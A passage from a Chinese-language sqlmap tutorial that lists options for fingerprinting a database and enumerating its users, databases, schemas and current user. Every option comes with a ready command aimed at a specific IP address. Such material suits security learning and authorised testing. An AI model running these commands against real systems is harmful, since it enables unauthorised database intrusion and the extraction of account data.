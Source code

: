 

##### **—second-order：在一个页面注入的结果，从另外一个页面提现出来** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —second-order “http://1.1.1.1/b.php“



## 八.查看基本信息 



##### **-f ：扫描时加入数据库指纹检测**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -f



##### **-b ：查看数据库的版本信息** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -b



## 九.查看数据信息 



##### **—users ：查询所有的数据库账号**

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —users



##### **—dbs ：查询所有数据库** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —dbs



##### **—schema ：查询源数据库（包含定义数据的数据）** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —schema



##### **-a ：查询当前user、当前数据库、主机名、当前user是否是最大权限管理员、数据库账号等** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -a



##### **-D dvwa：指定数据库** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -D database_name



##### **—current-user ：查询当前数据库用户** 

> python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —current-user



##### **—current-db ：查询当前数据库** 
